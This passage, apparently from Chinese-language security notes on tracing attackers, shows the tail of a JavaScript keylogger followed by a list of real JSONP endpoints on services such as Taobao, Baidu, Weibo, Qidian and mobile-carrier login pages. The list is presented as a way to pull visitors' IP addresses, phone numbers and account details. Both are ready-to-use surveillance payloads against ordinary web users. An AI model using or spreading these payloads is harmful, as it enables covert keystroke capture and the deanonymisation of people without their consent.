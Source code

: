 ```plain
        break;

      case 13:
        keyName = "[回车]";
        break;
      //case 16:keyName = "[shift]"; break;

      case 17:
        keyName = "[Ctrl]";
        break;

      case 18:
        keyName = "[Alt]";
        break;

      case 20:
        keyName = "[大小写]";
        break;

      case 32:
        keyName = "[空格]";
        break;

      case 33:
        keyName = "[PageUp]…</script>
```

常用于获取攻击者个人信息的 JSONP 接口：

```plain
http://burp/favicon.ico
https://openfpcdn.io/fingerprintjs/v3
https://verify.cmpassport.com/h5/httpsPreGetmobile
https://www.taobao.com/help/getip.php?callback=ipCallback
https://www.yy.com/yyweb/user/queryUserInfo.json?callback=jsonp
https://www.cmpassport.com/h5/onekeylogin/getNewUnicomPhonescrip
https://www.cmpassport.com/h5/onekeylogin/getNewTelecomPhonescrip
https://tieba.baidu.com/tbmall/gettdouiconinfo?callback=jsonp1613919078534
https://yuedu.baidu.com/nauser/getyduserinfo?na_uncheck=1&opid=wk_na&callback=bd
https://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_16073033003861
https://v2.sohu.com/api/pc-home-city/home-data/ip2location?_=1606458878259&callback=jQuery1124018281896477578718_1606458878259
https://id6.me/auth/preauth.do?paramKey=10F72757C5A5A12B0A6DA61E62BDF3238163CC31B9CC3CC506CCD6BF67D3BC8CEEC92DAF1ED125BC4F681D118A2ED62D8CD18EE0629220BD69802469FAB4E1C62067CA310EDC5E1A2DCDCF0E8202AA852D611A0B78364344F15A866395C9AAF3C1061C9F6B1ACDCAB232960AC6F14D615ED5184184BDB125AC647A8422EC25D7&clientType=2&paramStr=39826A2D6BADA0327947D80463C1422C01D472F90ECC1B7FC72D262D1C7AC4FC201506C46971655C6C67C5714F232A532126204E40DD35C24C4264AC5D106D9EBEFEBB98157CB7230F5F8BF1788608CA3CF9F38998815804A4652BF20C1EB763525257296155BAF2B4B46836ED276DE6944344B4135D94555640885B4363C4AD&appId=8013416909&format=jsonp&sign=C733AA0C9B2F41175F94344CAF0AA227C2F2B199&version=1.5&
https://opencloud.wostore.cn/openapi/netauth/precheck/wp?timeStamp=1659325750804&packname=xxx&business_type=1&format=jsonp&sign=FCE6F4692C5FEDD8993FDEBD079EBF49&callback=getNewUnicomPhone&fp=&client_type=7&version=v4.5&client_id=99166000000000000228&key=c4ZMLe9%2F1iX9Do2h4FGMqy5vC0IzZ%2Fgj9LePAFU%2BwTSc%2BHUbB6W1arA9YDRqR7HjFok226YHwwJrLq06Da%2BBMBM%2FPV7%2FexfV3uV%2BbR0xzMz4Xy%2F1pKyIriuaXA%2BieaQeYtvjXs1gTYXWc%2F8vZb3TODk9cKywn9FOI7m3iqrJUko%3D&packsign=xxx&
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
```
